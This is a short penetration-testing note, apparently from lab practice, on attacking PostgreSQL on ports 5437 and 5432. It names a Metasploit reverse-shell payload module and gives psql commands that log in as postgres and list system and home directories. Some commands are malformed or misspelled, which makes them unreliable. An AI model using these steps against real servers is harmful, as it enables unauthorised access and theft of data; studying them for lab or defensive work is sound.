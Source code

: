 ```yaml
---
tags:
  - BBDD
---
```

#### PORT 5437 & PORT 5432 PostgreSQL

- If you find this port, follow the commands below, and you can easily find credentials from another port as well
- 5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.7
```sh
msf6 exploit(linux/postgres/postgres_payload) > options and set all values rhost lhost port LHOST  tun0
```
```sh
| psql -U postgres -p 5437 -h IP  |  select pg_ls_dir(‘./’);  | select pg_ls_dir(‘/etc/password’);  | select pg_ls_dir(‘/home/wilson’);  | select pg_ls_dir(‘/home/Wilson/local.txt’);
```